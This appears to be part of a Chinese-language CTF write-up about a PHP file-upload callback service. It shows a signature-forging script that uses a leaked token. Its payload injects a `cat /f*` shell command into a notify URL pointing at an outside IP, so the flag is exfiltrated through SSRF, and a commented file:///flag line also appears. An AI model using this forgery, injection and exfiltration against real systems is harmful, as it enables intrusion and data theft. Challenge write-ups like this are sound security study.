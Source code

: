 ```php
     * 回调通知上传
     * @param $url
     * @param $param
     * @return bool|string
     */
    protected function upload_notify($url,$param)
    {
        // 生成签名
        $sign = $this->sign_params($param);
        $param['sign'] = $sign;

        // 请求地址
        $request_url = $url.'?'.urldecode(http_build_query($param));

        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $request_url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
        //利用点!
        $result = curl_exec($ch);
        curl_close($ch);
        return $result;
    }

}

Server::create(['token' => 'QiuQIuYyds', 'upload_path' => '/upload/']);
```

我觉得应该就是ssrf漏洞结合`curl_exec`外带,但是一直没外带成功,可能是我分析的地方有问题

Maybe外带的思路也不对?

为了伪造这个请求,首先要上传一个文件,然后服务器对签名进行校验,校验签名的机制都写在代码给你了,分析一下不难发现就是把传入的参数进行排序拼接再加个`token`拼接起来`md5`    hash一下.

伪造签名脚本

```php
?<?php
function sign_params($params): string
    {   
        $token = 'QiuQIuYyds';
        // 过滤参数
        $params = array_filter($params,function($key) use ($params){
            if(empty($params[$key]) || $key == 'sign'){
                return false;
            }
            return true;
        },ARRAY_FILTER_USE_KEY);

        // ascii排序
        ksort($params);
        reset($params);

        // 签名
        return md5(urldecode(http_build_query($params)) . $token);//绕过!
}
$params = [
    'uid' => 'index.php', // 替换为目标用户的实际 ID
    'notify' => 'http://47.236.170.130:8081/`cat /f*`', // 伪造的通知 URL
    // 'file' => 'file:///flag' // 伪造的文件路径
];
```